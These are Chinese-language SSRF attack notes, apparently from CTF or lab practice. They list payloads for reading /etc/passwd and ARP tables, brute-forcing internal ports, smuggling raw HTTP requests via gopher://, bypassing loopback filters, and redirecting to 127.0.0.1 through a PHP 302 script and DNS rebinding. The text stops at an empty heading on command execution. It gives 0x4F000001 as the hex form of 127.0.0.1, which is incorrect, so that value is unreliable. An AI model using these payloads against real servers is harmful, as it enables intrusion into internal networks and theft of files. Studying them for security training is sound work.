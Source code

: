 ## 1.SSRF信息收集File伪协议

file:///etc/passwd 读取文件passwd

file:///etc/hosts 显示当前操作系统网卡的IP

file:///proc/net/arp 显示ARP缓存表（寻找内往下其他主机）

可以访问一个ip地址，挨个发送APR请求

file:///proc/net/fib_trie 显示当前网段路由信息

## 2.SSRF信息收集Dict伪协议

dict://167.250.250.$1$:$80$

爆破开启的端口

## 3.SSRF信息收集HTTP伪协议

http://172.250.250.1/$index$.php

爆破存在的页面

## 4.SSRF利用gopher伪协议学习

**gopher默认不提交第一位，第一位需要加上填充符**

### 1.get提交

![image-20240401151236777](../images/image-20240401151236777.png)

#### 1.直接提交

构造代码：

GET /name.php HTTP/1.1
Host: 172.250.250.4

（这里会有个换行）

将头部内容URL编码

gopher://172.250.250.4:80/_GET%20/name.php%3fname=benben%20HTTP/1.1%0d%0AHost:%20172.250.250.4%0d%0A

#### 2.BurpSuite抓包

提交：gopher://172.250.250.4:80/_

BurpSuite抓包：![image-20240401154607421](../images/image-20240401154607421.png)

把构造的代码粘贴在url后面，做两次URL编码进行提交

![image-20240401164505250](../images/image-20240401164505250.png)

### 2.post提交

需要保留的头部信息：

POST /name.php HTTP/1.1
Host: 172.250.250.4
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

name=jianjian

（构造代码）

BurpSuite抓包进行两次URL编码然后上传

## 5.SSRF回环地址的绕过

http://127.0.0.1/flag.php被过滤

将127.0.0.1转换为其他进制

八进制 ：177000000001或点分式：0177.0000.0000.0001

十六进制0x4F000001

十进制2130706433

## 6.SSRF之302重定向绕过

对本地地址或者内网地址有过滤

访问公网服务器ip，公网下存在index.php

index.php的内容

<?php

header('Location:http://127.0.0.1/flag.php')



访问公网下的index.php相当于访问127.0.0.1/flag.php

## 7.SSRF只DNS重绑定绕过

https://lock.cmpxchg8b.com/rebinder.html

TTL最理想的设置为0，在第一次解析之后，立马换成我们想要访问的DNS服务器，有概率成功

http://DNS域名/flag.php

## 8.SSRF进行命令执行
